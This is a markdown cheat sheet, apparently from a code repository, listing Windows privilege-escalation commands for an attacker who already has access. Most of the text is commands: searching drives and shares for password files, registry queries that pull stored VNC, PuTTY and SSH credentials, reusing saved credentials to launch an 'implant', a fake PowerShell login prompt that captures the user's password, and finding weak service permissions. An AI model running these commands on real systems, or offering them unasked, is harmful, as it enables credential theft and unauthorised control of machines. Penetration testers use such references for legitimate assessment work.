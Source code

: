 # Windows Privilege Escalation Techniques

## Searching for sensitive filles

Start by searching for sensitive files on the local C drive. After that search any reachable network shares. [SharpShares](https://github.com/mitchmoser/SharpShares) can be used to search for open network shares.

```
dir /b /a /s c:\ > c-dirs.txt
```

```
SharpShares.exe /ldap:all /filter:sysvol,netlogon,ipc$,print$
```

Either extract the c-dirs.txt file onto your system and use your tool/text editor of choice to search for sensitive file. If you prefer to stay on the windows system and search through the file, use `type` and `findstr` to search for sensitive string.

```
type c-dirs.txt | findstr /i passw
```

## Registry Queries
Passwords for putty, vnc, and OpenSSH keys can be stored in the registry.

```
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKCU\Software\TightVNC\Server"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query "HKCU\Software\OpenSSH\Agent\Keys"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

```
Seatbelt.exe WindowsAutoLogon
Seatbelt.exe reg
```

## Credential Manager

Credentials stored in the windows credential manager can be abused to run commands or launch payloads as another users.

**List stored credentials**
```
cmdkey /list
```

**Use a stored credential**
```
runas /savecred /user:admin implant.exe
```

```
Seatbelt.exe CredEnum
```

## Asking for Credentials

Only a viable attack path if there's a user logged into the system. This can also burn you if the user gets suspicious.

**Request password for current user, using environment variable for the user:**
```powershell
powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

**Request password for current user, using hard-coded username (admin in this example):**
```powershell
powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'admin',[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

## Unsecured Services

**Identify Unquoted Service Paths with WMIC:**
wmic can trigger alerts in some environments.
```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```
**Identify services Everyone, Users, and Authenticated users have write access on with [accesschk.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)**

```
accesschk.exe -accepteula -wuvc "Everyone" *
```
```
accesschk.exe -accepteula -wuvc "Users" *
```
```
accesschk.exe -accepteula -wuvc "Authenticated Users" *
```

## View Password Policy

Password spray attacks can sometimes lead to elevating privileges if you're lucky. Knowing the password policy can greatly increase your success rate and efficiency. For example, if you know the password length is set to 15, you won't waste time spraying 8 character lenght passwords. ALthough there are sometimes when an old service account which hasn't had a password change in 10 years is using a password that falls outside the curretn password complexity rules.

```
net accounts
```

## Host Reconnaissance

**User and system information**
```
echo hostname: %computername%
echo username: %username%
whoami /all
query session
echo date: && date /t
echo time: && time /t
echo environment: && set
echo system information: && systeminfo
wmic bios
wmic volume get Label,DeviceID,DriveLetter,FileSystem,Capacity,FreeSpace
net accounts
net users
net localgroup
net localgroup administrators
```

**Networking Information**
```
ipconfig /all
route print
echo ARP Table: && arp -A
netstat -ano
net share
net use
wmic netuse list full
netsh firewall show state
netsh firewall show config
```

**Processes, services, tasks, startup**
```
tasklist /v
wmic process get CSName,Description,ExecutablePath,ProcessId
schtasks /query /fo LIST /v
sc query
tasklist /SVC
wmic service get Caption,Name,PathName,ServiceType,Started,StartMode,StartName
wmic startup get Caption,Command,Location,User
```

**Installed software, patches, drivers, AV**
```
wmic PRODUCT get Description,InstallDate,InstallLocation,PackageCache,Vendor,Version
wmic qfe get HotFixID,InstalledOn
driverquery /v
WMIC /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct
```